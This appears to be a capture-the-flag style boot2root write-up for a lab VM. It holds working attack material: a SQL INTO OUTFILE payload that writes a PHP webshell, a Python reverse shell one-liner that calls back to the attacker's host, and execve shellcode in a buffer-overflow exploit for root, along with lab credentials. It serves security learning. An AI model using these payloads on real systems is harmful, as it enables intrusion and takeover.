 # boot2root writeup1 (normal way)

## Getting code execution
### my little forum
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above one of lmezard login we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  

### webmail
On the mail server we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  

### phpmyadmin
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly)).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  

### webshell into reverse_shell
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard creds (not working in ssh tho)

## Privilege escalation

### Getting laurie (archive with c source code / fun)

After upgrade to lmezard account (using su lmezard:`G!@M6f4Eatau{sF"`) on the server we are presented with a tar archive in the home directory wich contains many pcap file with very few bytes but one of the file contains 30+kbyte, we will use wireshark to analyze it.  
Seems like it's it's actually one big C files which is splitted across many files, trying to compile the huge file, we notice 7 missing getmeX function.  
There are all splitted across the directory we can find them by searching for getmeX, catting the file, search for file + 1 and get the return statement, put it inside the big file, do this 7 times (or with a script) compile and run:  
```
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We have now a new combination of user / password: `laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Getting thor (enigme / bomb)

Binary called bomb, let's decompile it (using gdb snif).  
1. Public speaking is very easy.
strcmp between the above sentence and our input
2. 1 2 6 24 120 720
read six numbers, check if the first one is 1, then proceed to check if:
aiStack32[iVar1 + 1] != (iVar1 + 1) * aiStack32[iVar1])
aiStack32 is all my numbers, iVar1 is the index so to get n+1 we have to multiply index + 1 by n (iVar1 starts at 1)
3. 2 b 755
Read an int, a char and then an int, search for the int, then check if the char and the second int match
4. 9
Await an int and get the index of the number in the fibonacci sequence, check if it's 55 (9 in the fibinnacci sequence)
5. o05km1
Have an array of 16 char, create a array with index taken from each char of your input modulo 16, then compare the string with `giants`
6. 4 2 6 3 1 5
Do some strange math but await 6 numbers between 1 and 6 (included) each different from other
Just bruteforce the solution, i don't want to reverse.  

Well this solution does work to defuse the bomb but since it's shitty made it's not the ONLY solution, especially for the 3rd, 5th so i borrowed the correct flags from friends . (and the last level is broken).  
1. Public speaking is very easy.
2. 1 2 6 24 120 720
3. 1 b 214
4. 9
5. opekmq
6. 4 2 6 1 3 5

Which gives us `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
We now have thor ssh creds: `thor/Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### Getting zaz (tkinter / turtle)

I knew about tkinter and turtle so it wasnt that hard, but the fact that we had to md5 it gaved me trouble...   
In the end, we just had to convert the instruction to turtle instruction and we are done (see python script in /scripts)
```
echo -n 'SLASH' | md5sum
646da671ca01bb5d84dbb5fb2238dc8e
```

`zaz/646da671ca01bb5d84dbb5fb2238dc8e`

## Getting root (buffer overflow / exploit_me)

Too bored to reverse it completly but it's strcpying argv[1] into an array in main, thus we can overwrite main return address and make it jump to our shellcode, we place a nopsled just to be sure.  
```
$ /home/zaz/exploit_me $(python -c "print '\x90' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\xbf\xff\xf8\x98'[::-1]")
$ id
root
```

